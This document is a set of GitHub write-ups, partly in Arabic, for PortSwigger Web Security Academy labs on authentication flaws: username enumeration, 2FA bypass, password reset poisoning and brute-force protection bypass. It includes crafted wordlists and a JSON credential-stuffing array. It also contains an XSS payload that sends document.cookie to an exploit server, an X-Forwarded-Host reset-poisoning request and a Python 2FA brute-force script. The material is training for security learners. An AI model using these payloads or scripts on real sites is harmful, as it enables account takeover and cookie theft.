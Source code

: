 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>





<details>
  <summary>Lab: Username enumeration via subtly different responses</summary>

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```



  
</details>







<details>
  <summary>Lab: Username enumeration via response timing</summary>

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

  
</details>






<details>
  <summary>Lab: Broken brute-force protection, IP block</summary>


```
افتح Burp Suite واعمل Proxy للـ login page.

جرب تدخل بيانات غلط 3 مرات وراء بعض:

لاحظ إن بعد 3 محاولات فاشلة بيظهر block للـ IP (مثلاً رسالة error أو delay).

جرب بعد محاولتين فاشلتين تعمل login ناجح بحسابك (wiener:peter):

هتلاحظ إن العداد بيرجع للصفر وتقدر تكمل المحاولات بدون block.
```

### ``usernames``

```
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
```

### ``passwords``

```
peter
123456
peter
password
peter
12345678
peter
qwerty
peter
123456789
peter
12345
peter
1234
peter
111111
peter
1234567
peter
dragon
peter
123123
peter
baseball
peter
abc123
peter
football
peter
monkey
peter
letmein
peter
shadow
peter
master
peter
666666
peter
qwertyuiop
peter
123321
peter
mustang
peter
1234567890
peter
michael
peter
654321
peter
superman
peter
1qaz2wsx
peter
7777777
peter
121212
peter
000000
peter
qazwsx
peter
123qwe
peter
killer
peter
trustno1
peter
jordan
peter
jennifer
peter
zxcvbnm
peter
asdfgh
peter
hunter
peter
buster
peter
soccer
peter
harley
peter
batman
peter
andrew
peter
tigger
peter
sunshine
peter
iloveyou
peter
2000
peter
charlie
peter
robert
peter
thomas
peter
hockey
peter
ranger
peter
daniel
peter
starwars
peter
klaster
peter
112233
peter
george
peter
computer
peter
michelle
peter
jessica
peter
pepper
peter
1111
peter
zxcvbn
peter
555555
peter
11111111
peter
131313
peter
freedom
peter
777777
peter
pass
peter
maggie
peter
159753
peter
aaaaaa
peter
ginger
peter
princess
peter
joshua
peter
cheese
peter
amanda
peter
summer
peter
love
peter
ashley
peter
nicole
peter
chelsea
peter
biteme
peter
matthew
peter
access
peter
yankees
peter
987654321
peter
dallas
peter
austin
peter
thunder
peter
taylor
peter
matrix
peter
mobilemail
peter
mom
peter
monitor
peter
monitoring
peter
montana
peter
moon
peter
moscow

```



<img width="1676" height="794" alt="image" src="https://github.com/user-attachments/assets/9922e3be-dddc-49af-a0f1-7e6fb80bf588" />


```
carlos : daniel
```

<img width="1313" height="602" alt="image" src="https://github.com/user-attachments/assets/6ef4ebcb-564a-410c-ab9a-39c3a6ce3213" />





  
</details>








<details>
   <summary>Lab: Brute-forcing a stay-logged-in cookie</summary>


### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > <img width="1167" height="424" alt="image" src="https://github.com/user-attachments/assets/098dcadc-95fb-436c-ae1d-fde1290cc3a4" />
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > <img width="1878" height="742" alt="image" src="https://github.com/user-attachments/assets/9f556feb-f647-4080-af43-767f6e5d969c" />
  > 
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 


   
  
</details>



















<details>
  <summary>Lab: Offline password cracking</summary>


### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``

  
</details>
















<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener`` with intercept the requests to burp
2. click Forgot password
3. check email you will found the forgot password link

```url
https://0a12002d04f669c8804203db001d00de.web-security-academy.net/forgot-password?temp-forgot-password-token=gdqz0wd8rbjy5naoxidh5gh986avyo73
```
  
4. use it to change password
5. now go to **``http history ``** in burp

```http
POST /forgot-password HTTP/2
Host: 0a12002d04f669c8804203db001d00de.web-security-academy.net
Cookie: session=Jeo1T3SAvjuL5M1hPBCX7juYaqJvr11U
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a12002d04f669c8804203db001d00de.web-security-academy.net
Referer: https://0a12002d04f669c8804203db001d00de.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


username=wiener
```

> ### change **``wiener``** to **``carlos``** and put **``X-Forwarded-Host``** header to your exploit server 

```http
X-Forwarded-Host: exploit-0a4500a80403694b801a029301f3005a.exploit-server.net

username=carlos
```

see logs 

<img width="1857" height="114" alt="image" src="https://github.com/user-attachments/assets/f55d2a68-86b7-4f93-9c76-27c9f02e3031" />

```url
/forgot-password?temp-forgot-password-token=z137ea4t8oymjlqytibtexwwy0srey8z
```

> ## now add new password to carlos and login 

<img width="1375" height="668" alt="image" src="https://github.com/user-attachments/assets/04c8bafe-f425-44d3-bbc1-2da500842d18" />

  
</details>

































<details>
  <summary>Lab: Username enumeration via account lock</summary>

<img width="1480" height="804" alt="image" src="https://github.com/user-attachments/assets/558b88cf-ae67-439c-9ca5-caac98a2280e" />

```
carlos
carlos
carlos
carlos
carlos
root
root
root
root
root
admin
admin
admin
admin
admin
....
....

```

> ### THE REAL USERNAME WILL APPEAR ERROR: **`You have made too many incorrect login attempts. Please try again in 1 minute(s).`**


> ### SO USERNAME IS **`acceso`**





<img width="1543" height="738" alt="image" src="https://github.com/user-attachments/assets/2c27e85f-9d3b-4c07-b3b6-18f92347f884" />

> ### SO PASSWORD IS **`letmein`**

```
acceso : letmein
```

<img width="1779" height="845" alt="image" src="https://github.com/user-attachments/assets/e7e2dd78-6f7b-41bd-a779-ade23d51a0a8" />


  
</details>








<details>
  <summary>Lab: 2FA broken logic</summary>

<img width="1102" height="173" alt="image" src="https://github.com/user-attachments/assets/d701902a-1edd-4370-9cb7-e6df9b3dee61" />

---

1. login to your account **`wiener : peter`**
2. <img width="1296" height="613" alt="image" src="https://github.com/user-attachments/assets/df3add31-4a20-4768-a8b0-29c926dd4e32" />

```http
GET /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> ### change **`wiener`** to `carlos` and send the request

```http
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=carlos
```

<img width="1539" height="753" alt="image" src="https://github.com/user-attachments/assets/cacb8b0c-b2b9-448e-829a-35fd0fb62a3f" />



> ### now the website send the **`2fa`** to carlos

> #### logout form your account and login to it again but don't write your **`2FA`** code and send the request to intruder

<img width="782" height="279" alt="image" src="https://github.com/user-attachments/assets/2b05d78d-45c0-4d15-b16c-e186a99a8e89" />

```http
POST /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=U0GvMCS0BxfbwbJ8iMImN16k1qfpKw5w; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0af700e5033811f784723b2500240055.web-security-academy.net
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


mfa-code=123456
```

> ### change **`wiener`** to `carlos`
>
> add **`123456`** as payload and set `payload type` brute forcer 

<img width="1876" height="758" alt="image" src="https://github.com/user-attachments/assets/79203d2a-2f9d-41b1-8885-39823c515aa0" />

> ### see **``302``**

<img width="1703" height="815" alt="image" src="https://github.com/user-attachments/assets/a0105171-2c54-48e6-bce6-e145c8bd40b1" />

> click **`view response in browser`**  

<img width="1178" height="552" alt="image" src="https://github.com/user-attachments/assets/b3e1371f-3053-42ca-a6ce-f7cc89da9ccb" />

<img width="1890" height="838" alt="image" src="https://github.com/user-attachments/assets/bbdf9caa-d367-4366-8b5a-f96d9fe7e1f0" />

<img width="1417" height="822" alt="image" src="https://github.com/user-attachments/assets/884e0d3c-2b5f-4a11-9a57-718c7f7892ba" />

<img width="1565" height="749" alt="image" src="https://github.com/user-attachments/assets/7294253e-6ed6-4bc1-9061-224ac2d471b4" />

  
</details>










<details>
  <summary>Lab: Password brute-force via password change</summary>

```
old pass       neww pass 1        new pass 2
-----------------------------------------------------------------------------------
❌                🟩                 🟩        ===> will return to /login

-----------------------------------------------------------------------------------

🟩                🟩                 ❌        ===> New passwords do not match

-----------------------------------------------------------------------------------

❌                🟩                 ❌        ===> Current password is incorrect

 ```

> ### so if we don't know the old password and try to put new one will make use retrun to **`/login`** so we can't to brute force to bypass it we will found that if we put ``not matched new passwords it tell us that old passowrd is not correct`` so we can brute force 


----

<img width="1883" height="731" alt="image" src="https://github.com/user-attachments/assets/3ca615ba-e7da-4616-90d6-667fa218dc4d" />

```
username=carlos&current-password=plapla&new-password-1=123&new-password-2=1234
```

``set grep/match to New passwords do not match``

<img width="741" height="467" alt="image" src="https://github.com/user-attachments/assets/edcf439f-9e2d-4aa9-b168-8d1bad8ccc42" />

---

<img width="1511" height="719" alt="image" src="https://github.com/user-attachments/assets/17bafaf1-8162-491c-bc3d-5b99e2ce663b" />

> `found that in response say New passwords do not match that is mean the old passowrd is true put the new are not match so we know the passowrd` :

```
carlos : joshua
```

<img width="1295" height="600" alt="image" src="https://github.com/user-attachments/assets/02002043-0a12-4124-87e6-0aa249a622d0" />


  
</details>
















----- 

<details>
  <summary>🟪 Lab: Broken brute-force protection, multiple credentials per request</summary>

1. try to login as **`calos`** : 

```json
{"username":"carlos","password":"aaa"}
```

**`Invalid username or password.`**


2. try to send multiple credentials per request

```json
{

  "username":"carlos",
  "password":[
       "aaa",
       "passowrd",
       ...
    ]
}
```

## **`Full json`**

```json
{
  "username": "carlos",
  "password": [
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "123123",
    "baseball",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "1234567890",
    "michael",
    "654321",
    "superman",
    "1qaz2wsx",
    "7777777",
    "121212",
    "000000",
    "qazwsx",
    "123qwe",
    "killer",
    "trustno1",
    "jordan",
    "jennifer",
    "zxcvbnm",
    "asdfgh",
    "hunter",
    "buster",
    "soccer",
    "harley",
    "batman",
    "andrew",
    "tigger",
    "sunshine",
    "iloveyou",
    "2000",
    "charlie",
    "robert",
    "thomas",
    "hockey",
    "ranger",
    "daniel",
    "starwars",
    "klaster",
    "112233",
    "george",
    "computer",
    "michelle",
    "jessica",
    "pepper",
    "1111",
    "zxcvbn",
    "555555",
    "11111111",
    "131313",
    "freedom",
    "777777",
    "pass",
    "maggie",
    "159753",
    "aaaaaa",
    "ginger",
    "princess",
    "joshua",
    "cheese",
    "amanda",
    "summer",
    "love",
    "ashley",
    "nicole",
    "chelsea",
    "biteme",
    "matthew",
    "access",
    "yankees",
    "987654321",
    "dallas",
    "austin",
    "thunder",
    "taylor",
    "matrix",
    "mobilemail",
    "mom",
    "monitor",
    "monitoring",
    "montana",
    "moon",
    "moscow"
  ]
}

```


### click on response and choose show response on browzer or 

> take cookie value in response and use cookie editor extension and add cookie and visit **`/my-account?id=carlos`**

```
session=VWwWkwr7osG8fIq5lqwIrI7s0tB99OB7;
```


<img width="1824" height="835" alt="image" src="https://github.com/user-attachments/assets/d740bb54-1f52-471c-8d2f-6bf90eb92e8c" />


  
</details>



<details>
  <summary>🟪 Lab: 2FA bypass using a brute-force attack</summary>

```python
import requests
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading
import time

BASE_URL = "https://0ac9002b0360b47981c811be0055002a.web-security-academy.net/"
USERNAME = "carlos"
PASSWORD = "montoya"

lock = threading.Lock()
found_code = threading.Event()

# ---------------------------
# Create a fresh session
# ---------------------------
def create_session():
    return requests.Session()

# ---------------------------
# Get CSRF Token
# ---------------------------
def get_csrf(session, url):
    r = session.get(url)
    soup = BeautifulSoup(r.text, "html.parser")
    csrf_input = soup.find("input", {"name": "csrf"})
    return csrf_input["value"] if csrf_input else None

# ---------------------------
# Login with username/password
# ---------------------------
def login(session):
    csrf_token = get_csrf(session, f"{BASE_URL}/login")
    if not csrf_token:
        print("[!] Failed to get CSRF token for login.")
        return False

    data = {
        "csrf": csrf_token,
        "username": USERNAME,
        "password": PASSWORD
    }

    r = session.post(f"{BASE_URL}/login", data=data, allow_redirects=False)
    if r.status_code == 302 and "/login2" in r.headers.get("Location", ""):
        return True
    return False

# ---------------------------
# Try a single 2FA code
# ---------------------------
def try_code(code):
    if found_code.is_set():
        return None

    # Create a new session and login
    session = create_session()
    if not login(session):
        print(f"[ERROR] Failed to log in before trying code {code}")
        return None

    # Prepare 2FA data
    mfa_code = str(code).zfill(4)
    csrf_token = get_csrf(session, f"{BASE_URL}/login2")

    if csrf_token:
        data = {
            "csrf": csrf_token,
            "mfa-code": mfa_code
        }
    else:
        data = {"mfa-code": mfa_code}

    # Send the 2FA attempt
    r = session.post(f"{BASE_URL}/login2", data=data, allow_redirects=False)

    # Debugging
    if r.status_code == 302:
        location = r.headers.get("Location", "")
        if "/my-account" in location:
            with lock:
                if not found_code.is_set():
                    print(f"[+] 2FA code found: {mfa_code}")

                    # Get the session cookie
                    cookies = session.cookies.get_dict()
                    if cookies:
                        print("[+] Session Cookies:")
                        for name, value in cookies.items():
                            print(f"{name} = {value}")

                    found_code.set()
            return mfa_code

        elif "/login" in location:
            print(f"[!] Code {mfa_code} failed twice, redirected to login.")
    return None

# ---------------------------
# Brute-force 2FA
# ---------------------------
def brute_force_2fa():
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = {executor.submit(try_code, code): code for code in range(10000)}

        for i, future in enumerate(as_completed(futures)):
            if i % 50 == 0:
                print(f"[*] Tried up to: {str(i).zfill(4)}")

            result = future.result()
            if result:
                print(f"[SUCCESS] Final 2FA Code: {result}")
                return result

    print("[-] No valid 2FA code found.")
    return None

# ---------------------------
# Main
# ---------------------------
if __name__ == "__main__":
    start_time = time.time()
    brute_force_2fa()
    print(f"Finished in {time.time() - start_time:.2f} seconds")
```

<img width="907" height="582" alt="image" src="https://github.com/user-attachments/assets/ff67ed96-f33d-400b-a134-9662e8434769" />

### use cookie editor extension and put the new cookie and refresh

![Uploading image.png…]()


  
</details>











































